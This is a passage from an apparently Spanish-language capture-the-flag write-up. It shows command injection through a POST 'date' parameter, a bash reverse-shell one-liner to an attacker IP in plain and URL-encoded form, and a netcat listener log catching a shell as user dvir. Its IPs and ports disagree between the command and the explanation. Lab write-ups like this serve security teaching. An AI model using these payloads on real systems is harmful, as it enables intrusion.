 Alternativa de reverse shell:

```html
bash -c "bash -i >& /dev/tcp/10.10.16.19/443 0>&1"
```

**Nota:** usar `ctrl+u` para URLenodear y enviar una cadena que pueda interpretar

```html
%20%62%61%73%68%20%2d%63%20%22%62%61%73%68%20%2d%69%20%3e%26%20%2f%64%65%76%2f%74%63%70%2f%31%30%2e%31%30%2e%31%36%2e%31%39%2f%34%34%33%20%30%3e%26%31%22
```
#### Respuesta:

Acceso concedido al **dashboard de administración** de la aplicación.

#### Explicación:

Se utiliza el parámetro `date` en la solicitud POST para ejecutar un comando en el servidor que abre una reverse shell a nuestra máquina atacante (IP 10.10.16.9, puerto 4444). Se aprovecha el espacio en la URL, que es codificado con `+` usando `urlencode` (se puede hacer con BurpSuite mediante `ctrl+u`).

---

### Paso 2: Recepción de la reverse shell

#### Acción:

Utilizamos `nc` (Netcat) para escuchar la conexión de la reverse shell.

```bash
nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.16.9] from (UNKNOWN) [10.10.11.8] 41798
id
uid=1000(dvir) gid=1000(dvir) groups=1000(dvir),100(users)
whoami
dvir
```

#### Respuesta:

Se recibe la shell y se obtiene el control sobre el sistema como el usuario `dvir`.

#### Explicación:

Mediante `nc`, escuchamos la conexión de la reverse shell que es lanzada por el servidor víctima, obteniendo acceso a la máquina como el usuario `dvir`. La shell proporciona acceso al sistema, permitiéndonos ejecutar comandos.

---

### Paso 3: Mejora de la shell (tty)

#### Acción: [TTY Interactiva](../../../Técnicas/Tratamiento%20de%20la%20TTY/TTY%20Interactiva.md)
